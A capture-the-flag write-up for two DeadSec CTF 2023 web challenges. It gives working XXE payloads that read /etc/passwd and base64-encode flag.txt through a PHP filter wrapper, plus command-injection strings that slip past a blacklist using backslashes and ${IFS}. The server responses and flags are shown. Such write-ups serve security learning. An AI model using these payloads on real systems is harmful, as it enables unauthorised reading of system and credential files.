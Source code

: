 #  DeadSec CTF 2023
DeadSec CTF 2023 is an online jeopardy-style CTF organized by DeadSec Team.

## Web
### XEE (50pts)
flag in flag.txt
Target: target.deadsec.quest

The website prompt us common login page with username and password as input. As the title stated, it's about XXE vulnerability. We can see the request detail using BurpSuite. We first try the classic payload to retrieve ``passwd`` file.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<user>
	<username>&xxe;</username>
	<password>mypass</password>
</user>
```
And it works. Now, the description says that the flag is inside flag.txt file. But, changing the file path to flag.txt gives us permissions error. So now lets try to use PHP Wrapper inside XXE.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/../flag.txt"> ]>
<user>
	<username>&xxe;</username>
	<password>mypass</password>
</user>
```
Which gives us:
```
<result>
<code>0</code>
<msg>ZGVhZHtuMWNlX2JyMF9YRTNfM3pfaDNoM30K</msg>
</result>
```
```
FLAG: dead{n1ce_br0_XE3_3z_h3h3}
```

### Bing (50pts)
The site shows us a ping tool with an input box. I tried to submit 8.8.8.8 but it says ``error when executing command: 8.8.8.8``. Now this error looks so familiar when you enter improper command in linux. Thus, this could be a command injection vulnerability.

I tried to submit ``ls`` and it says ``Oh no no, dont hack my website :)))``.
Now we know that some inputs are blacklisted. After a while, I know that it blacklists whitespaces, quotes, ``cat``, etc.

So I tried bypass with backslash and it works. 
```
c\a\t</etc/passwd
```
Now let's get the flag.txt.

```
c\a\t</f\l\a\g\.\t\x\t
```
This command works but it doesn't give us the flag. 
It says: `` <pre>You can read flag !!!</pre>``
So I tried to encode the file to base64 and decode it later, just like in previous challenge.
```
base64${IFS}/f\l\a\g\.\t\x\t
```
And boom, we get the flag. The $IFS here acts as a separator to the positional parameters.
`` <pre>ZGVhZHtva29rb2shISFfdGgxc19mbEFnX2YwUl9ZMFV9Cg==
</pre>``

```
FLAG: dead{okokok!!!_th1s_flAg_f0R_Y0U}
```

